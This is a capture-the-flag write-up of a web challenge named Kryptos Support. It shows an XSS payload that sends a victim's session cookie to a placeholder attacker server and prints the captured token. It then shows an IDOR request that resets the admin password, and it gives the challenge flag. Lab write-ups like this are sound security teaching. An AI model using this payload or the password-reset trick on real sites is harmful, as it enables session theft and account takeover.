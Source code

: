 # Kryptos Support (Web)

![Kryptos Ticket Submission](kryptos_support1.png)

## Initial Recon

Examing source code and looking at the HTTP requests in BurpSuite, found two endpoints:
- `/api/tickets`
- `/api/login`

GoBuster yielded no usable results.

## XSS Injection

Started an HTTP server on my machine and started experimenting with different XSS payloads.

`python3 -m http.server 80`
  
Found a winner!

`<img src=x onerror="location.href='http://your-web-server/?cookie=' + document.cookie">`

Checking our python3 web server, we can see we've now got a session cookie!

`/?cookie=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`

Manually put the cookie into your browser, and BOOM, we're logged in as `moderator` and can see the list of support tickets at `/tickets`.

![Kryptos Ticket List](kryptos_support2.png)

## Further Exploitation

Once logged in as `moderator`, we can see a link for a "Settings" page in the top left. This page allows you to change your password (without knowing the current password), and uses the endpoint: `/api/users/update`

![Kryptos Password Change](kryptos_support3.png)

Capturing a password change for our current session, Burp shows us the following information included in the POST request:

    {
        "password":"test",
        "uid":"100"
    }

Guessing the admin account may have a uid of 1, we use Burp repeater to send the following POST:


    {
        "password":"a",
        "uid":"1"
    }
    
![Kryptos BurpSuite POST](kryptos_support4.png)

Now, delete your cookies, return to the `/login` page, and login as `admin:a`.

There's your flag! `HTB{x55_4nd_id0rs_ar3_fun!!}`
